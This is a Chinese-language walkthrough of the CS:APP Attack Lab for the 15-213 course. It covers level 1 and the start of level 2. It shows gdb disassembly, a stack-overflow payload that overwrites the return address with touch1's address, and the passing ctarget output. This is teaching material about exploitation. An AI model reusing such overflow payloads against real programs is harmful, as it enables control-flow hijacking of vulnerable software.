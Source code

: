 ```txt
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   ...
```

所以我们只需要构造一个前40个字节任意,后8字节为该地址的代码注入即可.同时注意小端存储,即低字节保存在低地址处

所以第一关的答案为

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00
```

```bash
root@da1811a84ddc:~/csapp/03Attack Lab/target1# ./hex2raw < 1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00
```

> 注意运行时应带上`-q`参数表示不提交给服务器,同时使用管道符利用`hex2raw`工具

这里有一个小细节,touch1函数地址完整写法应该是

```txt
c0 17 40 00 00 00 00 00
```

后四字节(即高四字节的00 00 00 00)可以省略

虽然原先返回地址也是0x0040开头的,但是后面的两字节 `40 00` 并不能省略,准确来说`00`也可以省略但是`40`不能省略.

我个人推测有可能是零扩展的原因,不过阅读Gets的汇编源码并没有解决这个问题


### Level2

第二关的任务是返回到`touch2`,并且传入的参数val==cookie的值

显然跳转的过程很容易,但是如果想传入参数,即给rdi赋值那肯定是无法通过简单的栈溢出来做到,我们需要汇编的帮助

先阅读 `touch2`汇编确定传入的参数放在 `rdi`中

```txt
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
```
